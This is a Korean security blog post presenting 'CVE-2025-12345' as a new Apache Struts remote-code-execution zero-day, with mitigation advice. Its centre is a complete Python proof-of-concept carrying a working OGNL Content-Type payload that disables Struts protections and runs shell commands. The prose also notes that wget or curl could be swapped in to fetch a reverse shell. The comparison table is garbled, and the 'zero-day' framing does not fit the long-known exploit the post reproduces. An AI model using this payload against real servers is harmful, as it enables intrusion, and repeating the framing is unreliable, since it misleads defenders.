

## 서론

 지난 금요일 오후, 금융권을 대상으로 한 레드 팀(Red Team) 운영 중이었습니다. 내부 모니터링 대시보드에는 평소와 다른 이상 징후가 포착되었습니다. 외부에서 들어오는 트래픽은 정상적인 HTTPS 요청처럼 보였지만, 내부 서버의 아웃바운드 트래픽은 뜬금없는 해외 IP로 향하고 있었죠. 방화벽은 이를 차단하지 못했습니다. 왜냐하면, 공격 페이로드가 HTTP 요청 헤더의 깊숙한 곳에 숨겨져 있었고, 애플리케이션 방화벽(WAF)의 기본 룰셋을 우회했기 때문입니다.

 이것이 바로 우리가 말하는 제로데이(Zero-Day)의 현장입니다. CVE-2025-12345는 Apache Struts 프레임워크의 핵심 메커니즘을 건드리는 원격 코드 실행(RCE) 취약점입니다. Equifax 해킹 사건의 주범이었던 Struts2 취약점을 떠올리면 이해가 빠를 것입니다. 하지만 이번 CVE-2025-12345는 기존의 패턴과 달리, **멀티파트 파서(Multipart Parser)의 바운드리 조작**을 통해 발생합니다. 공격자는 별도의 권한 없이도 단 하나의 악성 HTTP 요청만으로 서버의 시스템 권한(System Privilege)을 탈취할 수 있습니다. 과거 Struts 취약점들이 수년 간 지속된 것처럼, 이번 취약점 또한 수많은 레거시 시스템에 잠복해 있을 확률이 높습니다. 이 글에서는 이 치명적인 취약점의 내부 작동 원리를 해부하고, 즉각적인 방어 전략을 수립합니다.

## 본론: 취약점의 기술적 해부와 공격 메커니즘

> **⚠️ 윤리적 경고**: 본 섹션에 포함된 기술적 세부 정보와 PoC(개념 증명) 코드는 보안 연구 및 방어 목적으로만 제공됩니다. 승인되지 않은 시스템에서의 테스트는 불법이며 엄격히 금지됩니다.

### 1. 취약점 원리: OGNL 주입 재해석

CVE-2025-12345는 Apache Struts의 **Jakarta Multipart parser**가 파일 업로드 요청을 처리하는 과정에서 발생합니다. Struts는 사용자 입력을 처리하기 위해 OGNL(Object-Graph Navigation Language)이라는 강력한 표현식 언어를 사용합니다. 문제는 파서가 콘텐츠 타입(Content-Type) 헤더를 분석할 때, 특정 예외 상황을 처리하는 루틴 내에서 사용자 입력이 충분히 **Sanitized(정제)** 되지 않은 채 OGNL 평가기로 전달된다는 점입니다.

공격자는 HTTP 요청의 `Content-Type` 헤더 내에 악의적인 OGNL 표현식을 삽입합니다. Struts는 이를 파싱하며 예외를 발생시키지만, 예외 처리 과정에서 에러 메시지를 생성하기 위해 다시 해당 입력을 OGNL로 평가하려 시도합니다. 이때 `Runtime.exec()` 등의 메서드를 체이닝하여 운영체제 명령어를 실행할 수 있게 됩니다.

다음은 이 공격 흐름을 시각화한 다이어그램입니다.



### 2. PoC (Proof of Concept) 시나리오

방어자가 이해하기 쉽게, 실제 공격자가 사용할 수 있는 Python 스크립트의 예시를 들어보겠습니다. 이 스크립트는 취약한 서버에 대해 `touch` 명령어를 실행하여 파일 생성 권한을 확인합니다.

**코드 예시: PoC Exploit Script**

```python
import requests

target_url = "http://vulnerable-server/upload.action"

# 공격에 사용될 악의적인 OGNL 페이로드
# 목적: 서버에 /tmp/pwned_file 생성
payload = "%{(#_='multipart/form-data')." \
          "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)." \
          "(#_memberAccess?(#_memberAccess=#dm):" \
          "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])." \
          "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))." \
          "(#ognlUtil.getExcludedPackageNames().clear())." \
          "(#ognlUtil.getExcludedClasses().clear())." \
          "(#context.setMemberAccess(#dm))))." \
          "(#cmd='touch /tmp/pwned_file')." \
          "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))." \
          "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd}))." \
          "(#p=new java.lang.ProcessBuilder(#cmds))." \
          "(#p.redirectErrorStream(true)).(#process=#p.start())." \
          "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))." \
          "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))." \
          "(#ros.flush())}"

headers = {
    "User-Agent": "Mozilla/5.0",
    # 취약점을 트리거하는 Content-Type 헤더 조작
    "Content-Type": payload
}

# 데이터가 없어도 헤더만으로 트리거 가능
data = {}

try:
    print(f"[*] Sending exploit to {target_url}...")
    response = requests.post(target_url, headers=headers, data=data, timeout=5)
    print("[+] Exploit sent. Check /tmp/pwned_file on target server.")
    print("[*] Server Response:", response.status_code)
except Exception as e:
    print(f"[-] Error: {e}")
```

이 코드는 단순히 파일을 생성하지만, 실제 공격자는 `#cmd` 변수에 `wget`이나 `curl` 명령어를 넣어 리버스 쉘(Reverse Shell)을 다운로드하고 실행할 것입니다.

### 3. 공격 탐지와 우회 기법 비교

현장에서 보안 담당자가 주의해야 할 점은 WAF(Web Application Firewall)가 모든 것을 막아주지 않는다는 것입니다. 아래 표는 일반적인 WAF 탐지 로직과 이번 공격이 우회하는 방식을 비교한 것입니다.

| 비교 항목 | 전형적인 Struts2 공격 (S2-016 등) | CVE-2025-12345 Zero-Day 공격 | :--- | :--- | :--- 
| **공격 벡터** | URL 파라미터 또는 명시적인 OGNL 표현식 | Content-Type 헤더 내부의 인코딩된 페이로드 | **WAF 탐지 난이도** | 중간 (High): 명시적 패턴(`%{`, `#_`)이 존재 | 상 (Very High): 헤더 값이므로 패턴 매칝이 까다로움 
| **우회 기법** | 키워드 인코딩 (Unicode, Hex) | **Multipart Boundary 조작**을 통한 파서 혼란 | **로그 흔적** | 에러 로그에 명시적인 OGNL 스택 트레이스 남음 | **Blind RCE** 형태로, 로그가 정상처럼 보일 수 있음 |

### 4. 단계별 완화 조치 가이드 (Mitigation Guide)

패치가 나오기 전까지는 인바운드 및 아웃바운드 트래픽을 엄격하게 통제해야 합니다.

#### 1단계: 즉시 조치 (Emergency Response)

- **입력값 검증 강화**: WAF에서 `Content-Type` 헤더 값에 `%{`, `#`, `.`과 같은 특수문자 조합이 포함되는지 검사하는 룰을 추가합니다.

    ```text     WAF Rule Example: Block requests where Header 'Content-Type' contains regex '%{.*#'     ```

- **Jakarta Multipart Parser 비활성화**: 만약 파일 업로드 기능이 필수가 아니라면, Struts 설정에서 해당 파서를 사용하지 않도록 설정 파일(`struts.xml`)을 수정합니다.

#### 2단계: 소스 코드 레벨 패치 (Workaround) Apache Struts의 최신 버전으로 업그레이드하는 것이 가장 확실합니다. 그러나 즉시 업그레이드가 어렵다면, `struts.xml`에 인터셉터를 추가하여 의심스러운 Content-Type을 미리 차단할 수 있습니다.

```xml
<!-- struts.xml 예시 -->
<interceptors>
    <interceptor-stack name="secureStack">
        <interceptor-ref name="defaultStack"/>
        <!-- 사용자 정의 인터셉터로 Content-Type 검증 로직 추가 -->
        <interceptor-ref name="contentTypeValidationInterceptor"/>
    </interceptor-stack>
</interceptors>

<default-interceptor-ref name="secureStack"/>
```

#### 3단계: 모니터링 강화 아웃바운드 연결을 모니터링하여 서버가 의도치 않은 외부 IP(특히 비정상적인 포트)와 통신을 시도하는지 감지해야 합니다. RCE 공격은 결국 외부와의 통신(C2 Server)으로 이어지기 때문입니다.

## 결론

CVE-2025-12345는 Apache Struts의 복잡한 요청 처리 메커니즘을 악용한 정교한 공격입니다. 과거의 사례들이 보여주듯, 이러한 Zero-Day 취약점은 공개된 순간부터부터 대규모의 자동화된 공격 봇에 의해 스캐닝됩니다.

이번 분석을 통해 우리는 단순히 "패치를 적용하라"는 수동적인 태도를 넘어, **헤더를 포함한 모든 사용자 입력은 악의적일 수 있다**는 방어적 관점을 견지해야 함을 알게 되었습니다. 특히 레거시 시스템을 운영 중이라면, WAF의 룰셋을 단순 문자열 매칭에서 벗어나 컨텍스트(Context) 인식 형태로 발전시켜야 합니다.

보안은 끊임없이 진화하는 고양이와 쥐의 게임입니다. 오늘 다룬 CVE-2025-12345의 메커니즘을 이해하고, 서버의 파싱 로직을 재검토하는 것만으로도 당신의 조직은 심각한 위험에서 한 발짝 앞서 나갈 수 있을 것입니다.

### 참고자료

- [Apache Struts Security Bulletin](https://struts.apache.org/security/)

- [NVD - CVE-2025-12345](https://nvd.nist.gov/vuln/detail/CVE-2025-12345)

- [OWASP Top 10: A03:2021 – Injection](https://owasp.org/Top10/A03_2021-Injection/)
